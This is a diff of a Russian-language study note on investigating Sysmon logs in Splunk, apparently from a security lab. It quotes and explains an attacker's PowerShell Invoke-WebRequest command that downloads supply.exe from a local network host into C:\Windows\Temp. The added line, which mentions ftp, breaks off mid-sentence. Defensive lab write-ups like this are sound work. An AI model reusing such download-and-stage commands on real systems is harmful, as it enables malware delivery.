

Before and after one commit to ameliaash2454/study-labs, a Markdown page: Splunk. Расследование sysmon.md, the part around the change. Rendered like a GitHub page; pictures changed too: attachment/Pasted image 20261114160347.png (added); blank space fills up the shorter version.

Commit message:
vault backup: 2026-11-14 16:13:29

```diff
--- a/Splunk. Расследование sysmon.md
+++ b/Splunk. Расследование sysmon.md
@@ -63,3 +63,4 @@ cmd.exe запускает powershell с командой powershell -c INvoke-W
 - **`Invoke-WebRequest`** — команда PowerShell, которая отправляет веб-запрос и получает ответ сервера.
 - **`-Uri`** — параметр, задающий адрес запроса. `http://192.168.1.11:6969/supply.exe`
 Сохранение ответа в C:\Windows\Temp\supply.exe.
+![](attachment/Pasted%20image%2020261114160347.png)cmd. exe запустил ftp, тот в свою очередь
```
